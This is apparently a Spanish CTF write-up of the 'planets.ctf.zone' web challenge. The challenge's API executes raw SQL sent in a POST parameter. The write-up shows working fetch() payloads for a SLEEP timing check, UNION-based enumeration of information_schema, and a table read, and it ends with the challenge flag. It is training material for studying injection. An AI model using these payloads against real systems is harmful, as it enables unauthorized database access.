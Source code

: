 # Planets – SQL Injection (Blind/Union) Write‑Up

**CTF:** planets.ctf.zone
**Categoría:** Web / SQL Injection
**Fecha:** 09/08/2025

---

## 1. Descripción del reto

El sitio `https://planets.ctf.zone/` muestra tarjetas con planetas. En el HTML se observa un `fetch` a `/api.php` con `method: POST` y `Content-Type: application/x-www-form-urlencoded`, enviando literalmente `query=SELECT * FROM planets`. El endpoint devuelve JSON que el frontend renderiza (`name`, `image`, `description`).

**Hipótesis:** si el parámetro `query` se ejecuta sin sanitización, es posible inyectar SQL y leer otras tablas/columnas.

---

## 2. Reconocimiento

### 2.1. Confirmar ejecución directa y DBMS

**PoC (desde consola del navegador / DevTools):**

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent('SELECT SLEEP(3)')
}).then(r => r.json()).then(console.log)
```

El delay confirma ejecución de SQL y que el motor entiende `SLEEP()` → **MySQL/MariaDB**.

### 2.2. Enumerar tablas

Aprovechando que el frontend espera `name,image,description`, se usa `UNION SELECT` cuyos primeros dos campos sean literales neutros (para que casen con las columnas originales) y que el tercer campo sea el SELECT que nos interesa.

```js
fetch('/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent(
    "SELECT name,image,description FROM planets " +
    "UNION ALL SELECT 'X' AS name, 'x' AS image, " +
    "(SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 1)"
  )
}).then(r=>r.json()).then(console.log)
```

Iterando `LIMIT/OFFSET` aparecen tablas del esquema; se identifica:.

![Tabla abandoned_planets encontrada](images/tabla_identificada.png)
*Salida del `UNION` mostrando `abandoned_planets` desde `information_schema`.*

### 2.3. Enumerar columnas de `abandoned_planets`

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent(
    "SELECT name,image,description FROM planets " +
    "UNION ALL SELECT 'X','x',(SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='abandoned_planets' LIMIT 1 OFFSET 0)"
  )
}).then(r=>r.json()).then(console.log)
```

Con `OFFSET` 0,1,2 se obtienen: `description`, `id`, `image`. 

---

## 3. Explotación

Lectura directa de la tabla identificada:

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent('SELECT description, id, image FROM abandoned_planets')
}).then(r=>r.json()).then(console.log)
```

**Salida relevante (resumen):**

![Flag en abandoned_planets](proof/4_flag.png)
*Lectura directa de `abandoned_planets` con la flag en `description`.*

---

## 4. Flag

```
flag{9c4dea2d8ae5681a75f86070ac80a999}
```

---